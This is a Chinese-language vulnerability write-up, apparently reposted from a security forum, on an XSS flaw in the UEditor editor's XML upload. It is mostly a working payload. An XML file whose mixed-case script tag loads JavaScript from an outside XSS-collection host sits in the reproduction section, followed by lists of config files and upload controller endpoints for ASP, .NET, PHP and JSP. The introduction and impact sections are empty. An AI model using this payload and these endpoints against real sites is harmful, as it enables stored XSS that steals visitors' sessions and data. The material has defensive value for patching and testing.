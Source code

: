 # ueditor 允许xml上传的xss漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3207](https://www.zhihuifly.com/t/topic/3207)

# ueditor 允许xml上传的xss漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
<html>
<head></head>
<body>
<something:script src="</tExtArEa>'"><sCRiPt sRC=http://xssye.com/tVbS></sCrIpT>" xmlns:something="xss平台地址">1234</something:script>
</body>
</html> 
```

Ueditor 默认支持上传 xml ：config.json可以查看支持上传的后缀

```
/ueditor/asp/config.json
/ueditor/net/config.json
/ueditor/php/config.json
/ueditor/jsp/config.json 
```

上传文件路径

```
/ueditor/index.html

/ueditor/asp/controller.asp?action=uploadimage

/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage

/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile

/ueditor/php/controller.php?action=uploadimage `/ueditor/jsp/controller.jsp?action=uploadfile

/ueditor/jsp/controller.jsp?action=uploadimage` 
```